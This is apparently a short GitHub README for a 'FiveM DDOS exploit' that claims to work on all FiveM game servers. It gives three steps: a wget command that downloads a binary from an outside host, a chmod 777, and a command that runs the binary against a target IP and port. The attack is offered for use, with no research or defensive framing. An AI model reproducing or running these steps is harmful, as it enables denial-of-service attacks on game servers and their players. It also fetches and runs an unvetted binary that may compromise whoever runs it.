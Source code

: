 # FIVEM-DDOS

FıveM DDOS Exploit 100% Working On All Servers.

Step 1: wget http://upload.vina-host.com/kYmSs/FIVEM

Step2: chmod 777 FIVEM

Step3: ./FIVEM IP PORT 900 900
